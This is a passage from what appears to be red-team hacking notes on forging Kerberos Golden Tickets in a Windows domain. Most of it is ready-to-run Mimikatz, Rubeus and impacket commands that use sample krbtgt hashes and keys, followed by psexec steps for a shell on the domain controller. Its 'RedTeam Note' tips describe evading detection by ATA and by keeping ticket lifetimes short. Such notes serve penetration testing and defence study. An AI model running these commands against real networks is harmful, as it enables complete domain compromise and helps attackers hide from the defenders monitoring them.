 ```powershell
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:corp.local /sid:S-1-5-21-268341927-4156873456-1784235843 /krbtgt:a9b30e5b0dc865eadcea9411e4ade72d /id:500 /groups:513 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'

Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:corp.local /sid:S-1-5-21-268341927-4156873456-1784235843 /aes256:390b2fdb13cc820d73ecf2dadddd4c9d76425d4c2156b89ac551efb9d591a8aa /id:500 /groups:513 /startoffset:0 /endin:600 /renewmax:10080 /ticket"'
```
> **Note**: `/ptt` injects the ticket in current PowerShell process.
>
> `/ticket` saves the ticket to a file for later use.

> **RedTeam Note**: Avoid detection by creating a ticket with less duration than the maximum in kerberos policy. So create a ticket and inmediately use it.
>
> `/endin:600` Mimikatz by default create a ticket with 10 years of lifetime.
>
> `/renewmax:10080` Mimikatz by default create a ticket lifetime with 10 years of renewal.

> **RedTeam Note**: To prevent beeing detected of ATA use the `aes256` keys.

```powershell
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:corp.local /sid:S-1-5-21-268341927-4156873456-1784235843 /krbtgt:a9b30e5b0dc865eadcea9411e4ade72d /id:500 /groups:513 /startoffset:0 /endin:600 /renewmax:10080 /aes256:<aes256keysofkrbtgt> /ptt"'
```

* **Rubeus.exe**

```
.\Rubeus.exe golden /aes256:<aes256> /user:Administrator /domain:corp.local /sid:S-1-5-21-268341927-4156873456-1784235843 /nowrap
```

* **Ticketer.py (impacket)**

```
python ticketer.py -nthash a9b30e5b0dc865eadcea9411e4ade72d -domain-sid S-1-5-21-268341927-4156873456-1784235843 -domain corp.local Administrator
export KRB5CCNAME=./administrator.ccache
python psexec.py corp.local/Administrador@dc01.corp.local -k -no-pass
```

Use `klist` to list all kerberos tickets:

```
klist
```

With a Golden Ticket we can access to any resource of the domain such as shared files (**C$**), and execute services and WMI, so we can user **psexec** or **wmiexec** to obtain a shell.

```
ls \\dc01.corp.local\c$
```
> **Note**: A shell via WMI can not be obtained, so do not use PowerShell Remote.

![Golden Ticket](/hackingnotes/images/golden_ticket_psremoting.png)
